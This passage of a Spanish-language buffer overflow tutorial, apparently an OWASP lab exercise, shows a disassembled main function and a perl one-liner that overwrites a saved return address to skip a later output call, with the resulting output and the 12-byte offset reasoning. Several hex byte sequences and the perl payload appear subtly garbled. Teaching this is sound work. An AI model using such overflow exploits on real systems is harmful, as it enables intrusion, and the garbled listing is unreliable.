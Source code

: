 ```
080483be <main>:
 80483be: 8d 4c 24 04 lea 0x4(%esp),%ecx
 80483c2: 83 e4 f0 and $0xfffffffff0,%esp
 80483c5: ff 71 fc pushl 0xfffffffffc(%ecx)
 80483c8: 55 push %ebp
 80483c9: 89 e5 mov %esp,%ebp
 80483cb: 51 push %ecx
 80483cc: 83 ec 04 sub $0x4,%esp
 80483cf: c7 04 24 bc 84 04 08 movl $0x80484bc,(%esp)
 80483d6: e8 f5 f5 fe ff ff ff call 80482d0 <puts@plt>
 80483db: e8 c0 f0 ff ff ff ff call 80483a0 <doit>
 80483e0: c7 04 24 cd 84 04 08 movl $0x80484cd,(%esp)
 80483e7: e8 e4 fe ff ff ff call 80482d0 <puts@plt>
 80483ec: b8 00 00 00 00 00 00 mov $0x0,%eax
 80483f1: 83 c4 04 add $0x4,%esp
 80483f4: 59 pop %ecx
 80483f5: 5d pop %ebp
 80483f6: 8d 61 fc lea 0xfffffffffc(%ecx),%esp
 80483f9: c3 ret
 80483fa: 90 nop
 80483fb: 90 nop
```

Si la segunda llamada a `printf()` informaría al administrador sobre el cierre de sesión del usuario (por ejemplo, sesión cerrada), entonces podemos intentar omitir este paso y finalizar sin la llamada a `printf()`.

```bash
user@dojo-labs ~/owasp/buffer_overflow $ perl -e 'print "A "x12 . "\xf9\x83\x04\x08"' | ./example02
```

Salida:

```
So... The End...
AAAAAAAAAAAAAAAAAAu*.
Segmentation fault
```

La aplicación finalizó su ejecución con fallo de segmentación, pero la segunda llamada a `printf()` no tuvo cabida. Algunas palabras de explicación:

perl -e 'print “A”x12 .”\xf9\x83\x04\x08”' - imprimirá doce caracteres “A” y luego cuatro caracteres, que de hecho son una dirección de la instrucción que queremos ejecutar. ¿Por qué doce?

```bash
8 // Size of buf (char buf[8])

+ 4 // Four additional bytes for overwriting stack stack frame pointer

----

12
```
